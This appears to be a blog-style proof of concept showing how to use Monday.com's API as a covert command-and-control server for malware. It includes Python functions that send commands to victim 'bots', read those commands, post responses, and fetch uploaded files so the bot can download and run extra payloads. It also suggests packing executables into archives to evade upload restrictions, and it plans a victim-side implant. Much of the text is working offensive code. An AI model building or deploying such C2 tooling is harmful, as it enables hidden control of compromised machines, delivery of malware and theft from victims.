









## Preface

There have been many attacks in which attackers abuse legitimate web applications and use them as a command and control server in order to evade detection.

This has been seen in pieces of malware which [abuse Dropbox's for command and control](https://www.theregister.com/2014/06/30/dropbox_used_as_command_and_control_in_taiwanese_govt_attack/) or [malware which abuses Discord for command and control of victims](https://securityaffairs.co/wordpress/109971/malware/abaddon-rat-discord-cc.html)

In this blog post, we'll be using the project manager Monday.com's API as a command and control server in order to interact with a victim computer. We will refer to our victim computer as a 'bot'. Interaction will include: 

* sending commands to our bot

* receiving data from our bot

* downloading additional malware to the bot


## Quick Explanation

Monday.com has *boards* which can be simply seen as subworkspaces for the workspace. Each board has a board ID which is the last part of the URL when you click a board:


Within each board, you have groups, and within these groups will be items. These items will be used to issue commands to our bots. The items will be named according to the command we wish to specify.

The groups are essentially the outer layer while the items are within the groups. Here, we have a group named **C&C** and commands 1-3 defined as the items within this group:



# Monday's API

Monday.com's API can be accessed [here](https://monday.com/developers/v2)

The two main actions that we are mainly interested in are querying the *boards* item name and ID field since this is where our bots will look for commands. The item ID field will be used for responding to commands with the appropriate data. And we are also interested in *mutating monday.com and creating updates* since this is how we will send our bots commands from an attacker's perspective.

## Sending Commands

API method used: [Mutating > Items > Create Item](https://monday.com/developers/v2#mutations-section-items-create)

In order to properly send a command, we need the:

* *board_id*

* *group_id*

* *item_name*

The *board_id* is simply the last part of the URL when you select a board:


The *group_id* always appears to be 'topics', even when you change the group name for some reason. So I've hardcoded this into the code in the *sendCommand()* function's *query* variable.

And the *item_name* is simply the command you want to send.

The Python code to perform the following is:

```python
def sendCommand(apiKey, boardId, cmd):
    url = "https://api.monday.com/v2/"
    headers = {"Authorization": apiKey}
    query = {"query": "mutation {create_item (board_id: " + boardId + ", group_id: \"topics\", item_name: \"" + cmd + "\") {id}}"}
    response = requests.post(url, headers=headers, data=query)
    print(response.json())
```

If the API call is successful, the output would look something like this:

```
{'data': {'create_item': {'id': 'id_value'}}, 'account_id': account_id}
```

where the *id_value* is the ID of the item and *account_id* is the ID of  your account.

When you send a command, it will appear in the specified group as an item. For example, if we call *sendCommand()* and pass the string "update" to the *cmd* argument (meaning we're sending an "update" command), the group would then look like this:



If you would prefer to send commands manually, you can:

1. Navigate to the appropriate board

2. Locate the appropriate group

3. Click the *+Add* text bar in the appropriate group & type out your command then hit enter 

## Receiving Commands

API method used: [Querying Monday.com > Boards](https://monday.com/developers/v2#queries-section-boards)

The goal is not only to receive commands, but also to send data back in response to the command. For example, if a command is received that asks for OS information, we need a means to respond to this command with OS information. This is possible via Monday.com's updates feature which allows users to essentially leave a comment on a item within a group. This will allow us to leave comments, or responses, to commands.

In order to respond to commands with an update, we need a command ID (Monday.com refers to these as item IDs). Our query which would return the command and the command ID is:

```
query {
    boards (ids: *board_id*) {
        items {
            name, id
        }
    }   
}
```

Obtaining the *board_id* is explained in the **Sending Commands** section.

The Python code to retrieve the latest command and command ID would be:

```python
def getCmd(apiKey, boardId):
    url = "https://api.monday.com/v2/"
    headers = {"Authorization": apiKey}
    query = {"query": "{boards(ids:" + boardId + ") {items {name, id}}}"}
    response = requests.post(url, headers=headers, data=query)
    command = response.json()['data']['boards'][0]['items'][-1]['name']
    commandId = response.json()['data']['boards'][0]['items'][-1]['id']
    return command, commandId
```

Once the bot has gathered the requested data or performed a specific operation, it'd then respond to the appropriate command which would look like this (in this case, the command was "Update" and the bot's response was "Update Complete!"):



## File Uploads

The last thing to discuss is uploading files to deliver additional payloads. Files can be uploaded via the API or manually added to commands. To manually add them, you would:

1. Navigate to the appropriate board

2. Locate the appropriate group

3. Click the add symbol on the right hand side & navigate down to files:





4. Locate the item within the group you wish to add a file to then click *Add/Manage files*:



The file types that you may upload are limited though. But if you want to upload a restricted file type (for example, an executable file), you can simply throw it in a .zip or any other type of archive in order to bypass this restriction.

The domain for downloading files uploaded to Monday.com is https://files-monday-com.s3.amazonaws.com/

From a bot's perspective, we'd want to check for files after receiving a particular command. For example, let's say that we receive a command telling us to download and run an additional piece of malware that was uploaded along with the command. We can get the link of this file by using Monday.com's [Querying files API method](https://monday.com/developers/v2#queries-section-items). The structure of this query is:

```
query {
    assets(ids: itemID) {
        id
        public_url
    }
}
```

where *itemID* is simply the command ID which we obtained earlier when we received the command. 

The Python function to retrieve the URL to the file of a command would be:

```python
def findFile(apiKey, commandId):
    url = "https://api.monday.com/v2/"
    headers = {"Authorization": apiKey}
    query = {"query": "{items (ids: " + commandId + ") {assets { public_url }}}"}
    response = requests.post(url, headers=headers, data=query)
    if len(response.json()['data']['items']) != 0:
        return response.json()['data']['items'][-1]['assets'][-1]['public_url']
```

If there's a URL associated with a command, this function will return it. Then the next step would simply be to download the file and execute it.

## Python PoC

The *monday.py* file is meant as a proof of concept file that can:

* send a command

* check for a command

* respond to a command with an update

In order to **send** a command, you would need to pass the command (in quotes) to the *-s* flag and pass the *board_id* you want to send the command to, to the *-bid* flag:

* `python3 monday.py -s "update" -bid <board-id>`

* 

In order to **receive** a command, you would pass the *board_id* (found in the URL field) value to the -c flag:

* `python3 monday.py -c <board-id>`

* Example output:

In order to respond to a command, you would pass the response you'd like to post (in quotes) to the *-r* flag and you would also pass the *command_id* number to the *-cid* flag. You receive the *command_id* when you check for commands:

* `python3 monday.py -r "Update successfully completed!" -cid <command-id>`

* 

## Further Research

I plan to extend this post further in the future and improve this current Proof of Concept. This includes:

* Converting the code to something that can be more easily compiled into an executable file

* Improving the code so it will have a victim-side executable that will check for and properly handle and respond to commands

* Adding an attacker-side executable which will allow an attacker to check responses to commands and send commands

* Creating custom groups within boards for specific purposes in order to better organize bots (for example, having a group specifically for bots to ping back to the Monday.com C&C server to ensure they are still infected and waiting for commands)

* Exploring ways to bypass the current file upload restrictions instead of just using archive formats (example: 7zip, tar, zip, etc)
